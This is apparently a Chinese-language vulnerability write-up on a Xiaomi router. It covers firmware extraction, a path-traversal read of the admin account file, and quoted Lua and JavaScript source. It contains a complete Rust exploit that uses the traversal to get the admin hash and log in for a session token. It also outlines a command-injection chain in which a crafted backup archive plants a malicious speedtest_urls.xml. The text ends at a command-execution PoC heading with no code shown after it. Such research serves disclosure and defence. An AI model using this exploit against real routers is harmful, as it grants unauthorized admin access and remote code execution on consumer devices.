 # XIAOMI_RCE
MI路由器逆向分析

# 测试日志

1.通过Binwalk提取小米路由器固件，提取信息如下

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26fafb0e-5a82-4eab-9d86-86b4bc41d5e6/Untitled.png)

提取出来该路由器的得到ubi_rootfs文件，进入ubi_rootfs后发现未经过加密

2.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ec6877e7-b009-454a-bca2-a86201b46ba8/Untitled.png)

该处的配置可以访问任意文件读取根目录下的所有文件，而且是root权限

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a5a6726e-68c7-4bd5-aaed-c7aa7f4621a3/Untitled.png)

通过获取前端的加密代码可知密码是

```bash
var Encrypt = {
    key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
    iv: '64175472480004614961023454661220',
    nonce: null,
    init: function(){
        var nonce = this.nonceCreat();
        this.nonce = nonce;
        return this.nonce;
    },
    nonceCreat: function(){
        var type = 0;
        // 自己的mac地址
        var deviceId = '<%=mac%>';
        var time = Math.floor(new Date().getTime() / 1000);
        var random = Math.floor(Math.random() * 10000);
        return [type, deviceId, time, random].join('_');
    },
    oldPwd : function(pwd){ // oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))
        return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
    },
  //...
};
```

用Rust写的Exp如下：

```bash
use std::collections::HashMap;
use reqwest::blocking::{Client, RequestBuilder};
use regex::Regex;
use std::time::SystemTime;
use rand::Rng;
use sha1::Sha1;
use hex;

fn get_mac(client: &Client) -> String {
    let response = client.get("http://192.168.31.1/cgi-bin/luci/web")
        .send()
        .expect("Failed to send request");

    let re = Regex::new(r"deviceId = '(.*?)'").unwrap();
    let text = response.text().expect("Failed to get response text");
    let mac = re.captures(&text).unwrap().get(1).unwrap().as_str().to_string();
    
    mac
}

fn get_account_str(client: &Client) -> String {
    let response = client.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account")
        .send()
        .expect("Failed to send request");

    let account_str = response.text().expect("Failed to get response text");
    println!("{}", account_str);

    let re = Regex::new(r"admin'? '(.*)'").unwrap();
    let account = re.captures(&account_str).unwrap().get(1).unwrap().as_str().to_string();
    
    account
}

fn create_nonce(mac: &str) -> String {
    let type_ = 0;
    let device_id = mac;
    let time_ = SystemTime::now().duration_since(SystemTime::UNIX_EPOCH).expect("Time went backwards").as_secs() as i64;
    let rand = rand::thread_rng().gen_range(0..10000);
    format!("{}_{}_{}_{}", type_, device_id, time_, rand)
}

fn calc_password(nonce: &str, account_str: &str) -> String {
    let mut m = Sha1::new();
    m.update(nonce.as_bytes());
    m.update(account_str.as_bytes());
    hex::encode(m.digest().bytes())
}

fn main() {
    let client = Client::new();
    
    let mac = get_mac(&client);
    let account_str = get_account_str(&client);
    let nonce = create_nonce(&mac);
    let password = calc_password(&nonce, &account_str);
    
    let mut data = HashMap::new();
    data.insert("username", "admin");
    data.insert("password", &password);
    data.insert("logtype", "2");
    data.insert("nonce", &nonce);
    
    let response = client.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login")
        .form(&data)
        .header("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0")
        .header("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8")
        .send()
        .expect("Failed to send login request");
    
    let text = response.text().expect("Failed to get response text");
    let re = Regex::new(r#""token":"(.*?)"#).unwrap();
    let stok = re.captures(&text).unwrap().get(1).unwrap().as_str();
    println!("stok={}", stok);
}
```

该代码可以实现任意登陆效果

备份文件是`tar.gz`格式的，上传后`tar zxf`解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

- 备份文件解压导致`/tmp/`目录任意文件可控
    
    在`/usr/lib/lua/luci/controller/api/misystem.lua`中，配置文件功能如下
    

```bash
function cUpload()
    local LuciFs = require("luci.fs")
    local XQBackup = require("xiaoqiang.module.XQBackup")
    local code = 0
    local canupload = true
    local uploadFilepath = "/tmp/cfgbackup.tar.gz"
    local fileSize = tonumber(LuciHttp.getenv("CONTENT_LENGTH"))
    if fileSize > 102400 then
        canupload = false
    end
    LuciHttp.setfilehandler(
        function(meta, chunk, eof)
            if canupload then
                if not fp then
                    if meta and meta.name == "image" then
                        fp = io.open(uploadFilepath, "w")
                    end
                end
                if chunk then
                    fp:write(chunk)
                end
                if eof then
                    fp:close()
                end
            else
                code = 1630
            end
        end
    )
    if LuciHttp.formvalue("image") and fp then
        code = 0
    end
    local result = {}
    if code == 0 then
        local ext = XQBackup.extract(uploadFilepath)
        if ext == 0 then
            result["des"] = XQBackup.getdes()
        else
            code = 1629
        end
    end
    if code ~= 0 then
        result["msg"] = XQErrorUtil.getErrorMessage(code)
        LuciFs.unlink(uploadFilepath)
    end
    result["code"] = code
    LuciHttp.write_json(result)
end
```

可知，`/tmp`目录下的任意文件可控

- `/usr/bin/upload_speedtest,/usr/bin/download_speedtest`等会读取`/tmp/speedtest_urls.xml`并提取url直接进行命令拼接，且这几个脚本可以通过web接口调用

举例，查看`/usr/bin/download_speedtest`文件

调用的地方貌似有好几个，其中`/usr/lib/lua/luci/controller/api/xqnetdetect.lua`中

```bash
function netspeed()
    local XQPreference = require("xiaoqiang.XQPreference")
    local XQNSTUtil = require("xiaoqiang.module.XQNetworkSpeedTest")
    local code = 0
    local result = {}
    local history = LuciHttp.formvalue("history")
    if history then
        result["bandwidth"] = tonumber(XQPreference.get("BANDWIDTH", 0, "xiaoqiang"))
        result["download"] = tonumber(string.format("%.2f", 128 * result.bandwidth))
        result["bandwidth2"] = tonumber(XQPreference.get("BANDWIDTH2", 0, "xiaoqiang"))
        result["upload"] = tonumber(string.format("%.2f", 128 * result.bandwidth2))
    else
        os.execute("/etc/init.d/miqos stop")
        -- 这里调用了downloadSpeedTest
        local download = XQNSTUtil.downloadSpeedTest()
        if download then
            result["download"] = download
            result["bandwidth"] = tonumber(string.format("%.2f", 8 * download/1024))
            XQPreference.set("BANDWIDTH", tostring(result.bandwidth), "xiaoqiang")
        else
            code = 1588
        end
        if code ~= 0 then
           result["msg"] = XQErrorUtil.getErrorMessage(code)
        end
        os.execute("/etc/init.d/miqos start")
    end
    
    result["code"] = code
    LuciHttp.write_json(result)
end
```

所以，我们只需要构造恶意的`speedtest_urls.xml`文件，构造备份文件，上传备份文件，然后调用网络测试相关的接口，即可以实现命令注入。

实现命令执行poc

